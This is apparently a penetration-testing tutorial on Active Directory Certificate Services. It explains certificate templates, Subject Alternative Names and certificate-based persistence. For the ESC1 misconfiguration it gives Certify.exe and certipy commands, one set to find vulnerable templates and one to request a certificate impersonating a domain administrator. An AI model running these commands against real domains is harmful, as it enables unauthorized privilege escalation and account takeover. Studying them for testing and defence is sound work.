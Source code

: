 **The Significance of Certificate Templates**

Certificate templates define the settings and policies for certificates issued by CAs. They encompass various attributes, including the duration of certificate validity, the purpose of the certificate, and the subject specification. Certificate templates also play a crucial role in determining the Extended Key Usage (EKU) options that enable certificate-based authentication to Active Directory.

**Subject Alternative Names and their Implications**

Subject Alternative Names (SANs) allow multiple identities to be bound to a single certificate. While SANs are useful for scenarios such as hosting content for multiple domains on a web server, they can also pose security risks if combined with certificates that allow domain authentication. Attackers can specify arbitrary SANs when requesting certificates, enabling them to authenticate as any user within the domain.

**Authentication with Certificates in Active Directory**

AD CS facilitates authentication to Active Directory using certificates. By utilizing certificates with appropriate EKUs, users can authenticate to AD without relying on traditional credentials. This authentication mechanism is particularly relevant for smart card-based networks, where certificates play a crucial role in the authentication process.

**Account Persistence and Long-term Credential Theft**

One of the significant security implications of AD CS is the potential for long-term credential theft. Once an attacker obtains a certificate associated with a user or machine, they can use it to authenticate to AD for an extended period, even if the user’s password is reset. This form of persistence allows attackers to maintain unauthorized access and compromise the domain.



## **Domain Escalation: Vulnerabilities and Misconfigurations Misconfigured Certificate Templates – ESC1, ESC2, ESC3**

Misconfigurations in certificate templates can enable attackers to escalate their privileges within the domain. These misconfigurations include granting low-privileged users enrollment rights, disabling manager approval, not requiring authorized signatures, and having overly permissive certificate template security descriptors. Additionally, misconfigured certificate templates that allow unprivileged users to specify a Subject Alternative Name (SAN) in their certificate requests can lead to unauthorized domain authentication.

**ESC1**

**1) Find vulnerable certificate templates**

```javascript
PS C:\temp> .\Certify.exe find /vulnerable

root@kali:~# certipy find -u <domain_user> -p <domain_user_password> -dc-ip <domain_controller_ip>
```

**2) Abuse this vulnerability to impersonate a domain admin :**

```javascript
PS C:\temp> .\Certify.exe request /ca:<ca> /template:<vulnerable_template> /altname:<domain_admin>


root@kali:~# certipy req '<domain_user>:<domain_user_password>@<ca_dns_hostname>' -ca '<ca>' -template '<vulnerable_template>' -alt '<domain_admin>'
```
